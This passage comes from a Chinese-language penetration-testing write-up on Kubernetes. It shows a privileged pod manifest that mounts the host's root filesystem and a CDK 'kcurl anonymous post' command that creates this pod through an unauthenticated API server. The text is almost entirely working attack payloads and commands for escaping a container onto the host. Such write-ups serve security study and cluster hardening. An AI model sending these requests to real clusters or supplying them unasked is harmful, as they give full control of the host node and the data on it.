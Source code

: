 #### 通过 cdk 工具传输创建 Pod

创建特权容器

```bash
https://192.168.108.100:6443/api/v1/namespaces/default/pods/test-1
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-1\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-1\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-1","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
```

利用正常的 POST 传输似乎无法成功[![](assets/1701678402-e4467523ed797c53f6f3971e4e062371.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190918-e7a42dba-8f70-1.png)  
利用渗透工具 cdk 再次尝试

> [https://github.com/cdk-team/CDK/releases/tag/v1.5.2](https://github.com/cdk-team/CDK/releases/tag/v1.5.2)

```bash
./cdk_linux_amd64 kcurl anonymous post 'https://192.168.108.100:6443/api/v1/namespaces/default/pods?filedManager=kubectl-client-side-apply' '{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-1\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-1\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-1","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}'
```
